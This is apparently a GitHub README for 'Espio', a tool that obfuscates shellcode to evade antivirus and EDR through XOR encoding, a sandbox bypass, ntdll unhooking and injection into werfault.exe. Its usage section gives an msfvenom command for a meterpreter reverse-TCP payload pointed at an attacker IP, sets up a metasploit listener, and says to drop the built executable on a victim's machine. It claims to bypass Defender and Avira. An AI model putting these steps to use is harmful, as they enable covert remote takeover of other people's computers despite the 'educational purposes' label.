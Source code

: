 # Espio (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR.
[![Python 3.10.4](https://img.shields.io/badge/Python-3.10.4-yellow.svg)](https://www.python.org/) [![C++ 14](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/) [![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)

## Features
- Obfuscation - base64 encoding and XOR encryption with a randomly generated key.
- Sandbox Bypass - custom sleep function.
- DLL Unhooking - full unhook of ntdll.dll.
- Process Injection - injecting the payload to werfault.exe.

## Requirements
Espio requires [Python3](https://www.python.org/) and [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/) to use.

## Usage
1. Clone the repository:
```bash
git clone https://github.com/Konis-Bros/Espio.git
```

2. Generate the shellcode. In this demonstration we will be using msfvenom in a kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

3. Put the shellcode in the cloned repository and use the obfuscator.py tool to obfuscate it:
```bash
python3 obfuscator.py shellcode
```
Note: Our shellcode then be obfuscated to **obfuscatedPayload.bin** with the **key.bin** key and saved in loader/Espio.

4. Open loader/Espio.sln, the Visual Studio solution file.

5. Build The project. Note that the executable file will be located at loader/x64/Debug/Espio.exe.

6. On the attacker's machine, listen for TCP connections on the defined port. In our case, run metasploit's multi/handler on port 1337.

7. Drop the executable onto the victim's machine and run it.

## Recommendations
- In step 2 and 6, create meterpreter session over HTTPS. For more information see [Meterpreter HTTP/HTTPS Communication](https://www.rapid7.com/blog/post/2011/06/29/meterpreter-httphttps-communication/).
- In step 5, change the build configuration from Debug to Release. Note that the executable file will now be located at loader/x64/Release/Espio.exe.

## Tests
Espio was examined against:

### Windows Defender:

<img src="images/defender_bypass.png" alt="Defeder Bypass">

### Avira Prime:

<img src="images/avira_bypass.png" alt="Avira Bypass">

### ANTISCAN:

<img src="images/antiscan.png" alt="ANTISCAN">

## Authors and Acknowledgments
- [@dkonis](https://github.com/dkonis) - Research & Development
- [@RonKon](https://github.com/RonKonis) - Development
- [@SheL3G](https://github.com/SheL3G) - Research

## License
Distributed under the MIT License. See LICENSE.txt for more information.
